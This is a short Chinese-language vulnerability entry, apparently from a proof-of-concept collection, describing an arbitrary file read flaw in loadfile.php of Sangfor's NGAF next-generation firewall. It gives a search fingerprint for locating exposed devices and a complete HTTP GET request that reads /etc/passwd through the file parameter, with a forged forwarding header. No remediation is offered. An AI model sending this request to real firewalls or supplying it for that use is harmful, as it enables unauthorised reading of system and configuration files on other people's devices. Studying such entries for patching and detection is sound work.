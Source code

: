 # 

# 深信服 NGAF下一代防火墙 loadfile.php 任意文件读取漏洞

## 漏洞描述

深信服下一代防火墙是一款以应用安全需求出发而设计的下一代应用防火墙。深信服下一代防火墙在 loadfile.php 处存在文件读取漏洞，攻击者可通过该漏洞读取系统重要文件（如数据库配置文件、系统配置文件）、数据库配置文件等等。

## 漏洞影响

深信服 NGAF下一代防火墙

## 网络测绘

```
"Redirect.php?url=LogInOut.php"
```

## 漏洞复现

登陆页面

![image-20231115101204343](images/image-20231115101204343.png)

poc

```
GET /svpn_html/loadfile.php?file=/etc/./passwd HTTP/1.1
Host: 
User-Agent: Opera/8.90.(Windows NT 6.0; is-IS) Presto/2.9.177 Version/10.00
Accept-Encoding: gzip, deflate
Accept: */*
y-forwarded-for: 127.0.0.1
```

![image-20231115101759670](images/image-20231115101759670.png)
